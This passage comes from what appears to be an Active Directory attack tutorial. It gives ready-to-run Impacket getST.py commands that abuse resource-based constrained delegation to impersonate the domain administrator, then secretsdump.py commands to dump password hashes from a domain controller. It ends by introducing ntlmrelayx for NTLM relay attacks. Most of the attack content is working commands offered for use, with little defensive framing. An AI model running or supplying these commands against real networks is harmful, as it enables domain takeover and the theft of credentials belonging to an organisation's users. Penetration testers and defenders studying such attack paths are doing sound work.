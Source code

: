    ```bash
   python3 getST.py example.com/attacker_machine\$:<password> -spn cifs/target_machine -impersonate administrator -dc-ip <DC_IP> -use-rc4 -no-pass
   ```

   This will request a ticket for the `administrator` user that can be used by the `attacker_machine`.

2. **Forward the Ticket Using `S4U2Proxy`:**
   - Use the ticket obtained from the previous step and forward it to the target machine using `S4U2Proxy`.

   ```bash
   python3 getST.py example.com/attacker_machine\$:<password> -spn cifs/target_machine -impersonate administrator -dc-ip <DC_IP> -use-rc4 -no-pass -tgs example_com_ccache
   ```

   This will create a valid TGS ticket for the `administrator` to access `cifs/target_machine`.

### Step 3: Dumping Hashes from the Domain Controller Using the Ticket

1. **Set the KRB5CCNAME Environment Variable:**

   ```bash
   export KRB5CCNAME=example_com_ccache
   ```

   This environment variable points to the TGS ticket file you generated.

2. **Use `secretsdump.py` to Dump Hashes:**

   ```bash
   python3 secretsdump.py -k -no-pass -dc-ip <DC_IP> example.com/administrator@domain_controller_name$
   ```

   - `-k`: Tells `secretsdump.py` to use Kerberos authentication.
   - `-no-pass`: Indicates that no password is needed as the TGS ticket is used.
   - `example.com/administrator@domain_controller_name$`: The target for the hash dumping, typically a Domain Controller.

### Summary of Attack Path:
1. **Configure RBCD**: Set up the machine to allow delegation.
2. **Request and Forward Ticket**: Obtain and forward a TGS ticket using Impacket.
3. **Dump Hashes**: Use `secretsdump.py` with the TGS ticket to dump hashes from the DC.

This attack path allows you to impersonate a privileged account and perform sensitive operations on a Domain Controller, including dumping password hashes.

### Scenario: Using `ntlmrelayx` for Relay Attack in a Misconfigured Active Directory Environment

#### **Tool Overview: `ntlmrelayx`**

`ntlmrelayx` is part of the **Impacket** suite and is commonly used to perform **NTLM relay attacks**. NTLM relay attacks allow an attacker to intercept and relay authentication attempts from one host to another, taking advantage of insecure network configurations (e.g., SMB signing disabled or weak authentication mechanisms). This tool is often used in **pass-the-hash** or **pass-the-ticket** scenarios, as well as in exploiting misconfigurations in **Active Directory** environments.
